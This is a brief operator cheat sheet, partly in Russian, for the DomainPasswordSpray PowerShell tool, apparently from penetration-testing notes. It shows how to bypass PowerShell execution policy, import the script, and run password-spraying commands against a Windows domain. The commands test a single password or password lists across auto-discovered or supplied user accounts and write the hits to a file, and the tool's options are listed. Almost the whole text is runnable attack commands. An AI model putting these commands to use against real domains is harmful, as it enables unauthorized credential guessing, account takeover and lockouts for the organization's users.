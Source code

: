 https://github.com/dafthack/DomainPasswordSpray

**Импорт модуля из текущей директории**

```cmd
powershell.exe -exec bypass
```

```PowerShell
Import-Module (Resolve-Path('DomainPasswordSpray.ps1'))
```

**С автопоиском пользователей** (работает не всегда, особенно если комп не в домене)
```PowerShell
Invoke-DomainPasswordSpray -Domain DOMAIN -Password PASS -OutFile spray-out1.txt 
```

**User list + passwords list**
```PowerShell
Invoke-DomainPasswordSpray -Domain DOMAIN -UserList users.txt -PasswordList pwdlist.txt -OutFile spray-out1.txt 
```

**Options**

```
UserList          - Optional UserList parameter. 
Password          - A single password 
PasswordList      - A list of passwords one per line 
OutFile           - A file to output the results to.
Domain            - A domain to spray against.
Force             - Forces the spray to continue
```


